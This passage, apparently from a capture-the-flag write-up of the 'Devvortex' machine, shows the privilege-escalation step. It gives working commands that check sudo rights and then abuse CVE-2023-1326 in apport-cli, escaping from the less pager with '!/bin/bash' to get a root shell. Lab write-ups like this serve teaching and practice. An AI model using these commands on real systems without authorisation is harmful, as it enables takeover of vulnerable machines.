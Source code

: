 Linux enumeration revealed that we can run `apport-cli` with **sudo privileges**:

```bash
sudo -l
```

![](/assets/Devvortex/18.png)
<br />
<br />
<br />

Asking our friend Google again reveals our privilege escalation method, **CVE-2023-1326**. It seems that apport-cli uses `less` to display the output of a report, so we can then leverage `less` to gain a shell as root:

```bash
sudo apport-cli -f
1
2
V
!/bin/bash
```
